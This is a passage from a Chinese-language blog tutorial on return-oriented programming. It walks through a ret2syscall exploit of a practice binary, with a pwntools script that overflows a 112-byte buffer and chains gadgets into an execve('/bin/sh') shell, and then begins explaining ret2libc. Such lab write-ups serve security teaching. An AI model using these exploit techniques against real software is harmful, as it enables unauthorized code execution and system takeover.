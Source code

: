 下面寻找“bin/sh”的地址：`ROPgadget --binary ret2syscall --string '/bin/sh'`，也成功找到。

![](/img/in-post/ROP/14.PNG)

最后找中断号int 0x80，这里就忽略了，步骤类似。



使用pattern测试一下缓冲区空间，依然112。因此可以整理一下，我们的payload为：['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])。这个payload的意义如下：先填充112个字节内容占满缓冲区，然后在RET中写入后面的内容，当程序执行完时会先跳到pop_eax_ret的地址，即弹出栈顶的值赋给eax，此时栈顶值为后面的0xb，因此成功地将0xb赋给eax。后面的指令同理，将各自的值赋给其他寄存器，最后触发中断，执行系统调用获得shell。

**编写exp：**

```python
from pwn import *
p=process('./rop')
int_addr=0x8049421
bin_addr=0x80be408
pop_other_ret=0x806eb90
pop_eax_ret=0x80bb196
payload='a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_other_ret)+p32(0)+p32(0)+p32(bin_addr)+p32(int_addr)
p.sendline(payload)
p.interactive()
```

执行exp，获得shell

![](/img/in-post/ROP/15.PNG)

### ret2libc

#### 原理

ret2libc 这种攻击方式主要是针对动态链接编译的程序，因为程序是动态链接生成的，所以在程序运行时会调用 libc.so (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)。libc.so 是 linux 下 C 语言库中的运行库glibc 的动态链接版，并且 libc.so 中包含了大量的可以利用的函数，包括 system() 、execve() 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 system(“/bin/sh”) 来打开 shell。

#### 过程

用ida打开ret2libc1文件，发现有个system函数，地址是0x08048460。
